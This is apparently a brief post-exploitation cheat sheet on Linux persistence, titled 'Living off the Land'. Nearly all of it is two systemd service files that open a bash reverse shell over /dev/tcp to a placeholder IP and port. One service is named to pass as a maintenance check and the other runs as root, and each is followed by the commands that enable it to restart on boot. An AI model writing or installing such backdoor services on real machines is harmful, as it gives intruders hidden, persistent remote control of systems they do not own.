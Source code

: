# Living off the Land

`$ cat /etc/systemd/system/maintenance-check.service`

---

```
[Unit]
Description=Backdoor service

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >&/dev/tcp/<IP>/<PORT> 0>&1'
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
```

- Reload all daemon services

```
$ sudo systemctl daemon-reload

$ sudo systemctl enable maintenance-check.service
```

`$ cat /etc/systemd/system/rooted-backdoor.service`

---

```
[Unit]
Description=Backdoor service

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >&/dev/tcp/<IP>/<PORT> 0>&1'
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
```

```
$ sudo systemctl daemon-reload

$ sudo systemctl enable rooted-backdoor.service
```

---
## References

- [[Linux Post Exploitation Persistence References]]